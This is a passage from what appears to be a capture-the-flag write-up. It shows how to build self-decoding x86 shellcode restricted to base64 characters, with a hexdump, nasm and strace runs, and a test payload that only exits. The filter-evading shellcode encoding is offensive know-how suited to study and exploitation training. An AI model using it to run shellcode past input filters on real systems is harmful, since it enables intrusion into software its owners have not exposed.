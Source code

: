 <span class="Comment">; The second halves of the pairs (ie, the encoded data; this is where the decoded data will end up by the time execution gets here)</span>
<span class="Identifier">dd</span> <span class="Number">0x41414379</span>
<span class="Identifier">dd</span> <span class="Number">0x2b2b7a41</span>
<span class="Identifier">dd</span> <span class="Number">0x412f2b2b</span>
</pre>

And that's it! Let's try it out! The code leading up to the padding assembles to:

<pre>
00000000  68 41 41 41 41 58 35 41  41 41 41 50 50 50 50 50  |hAAAAX5AAAAPPPPP|
00000010  50 50 50 61 68 41 42 6a  6a 58 35 41 43 2b 2b 50  |PPPahABjjX5AC++P|
00000020  59 68 41 42 41 41 5a 31  51 41 68 46 41 41 41 58  |YhABAAZ1QAhFAAAX|
00000030  35 39 41 41 41 50 5a 42  31 51 41 41 41 41 41 68  |59AAAPZB1QAAAAAh|
00000040  41 41 6a 6a 5a 31 51 41  68 46 41 41 41 58 35 39  |AAjjZ1QAhFAAAX59|
00000050  41 41 41 50 5a 42 57 52  4c 5a 44 31 51 41 41 41  |AAAPZBWRLZD1QAAA|
00000060  41 41 68 6a 6a 62 41 5a  31 51 41 68 46 41 41 41  |AAhjjbAZ1QAhFAAA|
00000070  58 35 39 41 41 41 50 5a  42 57 52 4c 4c 5a 44 44  |X59AAAPZBWRLLZDD|
00000080  31 51 41 68 46 41 41 41  58 35 39 41 41 41 50 5a  |1QAhFAAAX59AAAPZ|
00000090  42 57 52 4c 4c 4c 5a 44  44 44 31 51 41           |BWRLLLZDDD1QA|
</pre>


We can verify it's all base64 by eyeballing it. We can also determine that it's 0x9d bytes long, which means to get to 0x141 we need to pad it with 0xa4 bytes (already included above) before the encoded data.

We can dump allll that code into a file, and run it with run_raw_code (don't forget to apply the patch from earlier to change the base address to 0x41410000, and don't forget to compile with -m32 for 32-bit mode):

<pre id='vimCodeElement'>
$ nasm <span class="Special">-o</span> file file.asm
$ strace ./run_raw_code ./file
<span class="Statement">read</span><span class="PreProc">(</span><span class="Number">3</span><span class="Special">, </span><span class="Operator">&quot;</span><span class="String">hAAAAX5AAAAPPPPPPPPahABjjX5AC++P</span><span class="Operator">&quot;</span><span class="Special">..., </span><span class="Number">333</span><span class="PreProc">)</span> <span class="Operator">=</span> <span class="Number">333</span>
<span class="Statement">exit</span><span class="PreProc">(</span><span class="Number">1094795585</span><span class="PreProc">)</span>                        <span class="Operator">=</span> ?
+++ exited with <span class="Number">65</span> +++
</pre>

It works! And it only took me two tries (I missed the 'inc ecx' lines the first time :) ).

I realize that it's a bit inefficient to encode 3 lines into like 100, but that's the cost of having a limited character set!

<h2>Solving the level</h2>

Bringing it back to the actual challenge...

Now that we have working base 64 code, the rest is pretty simple. Since the app encodes the base64 for us, we have to take what we have and <em>decode</em> it first, to get the string that would generate the base64 we want.
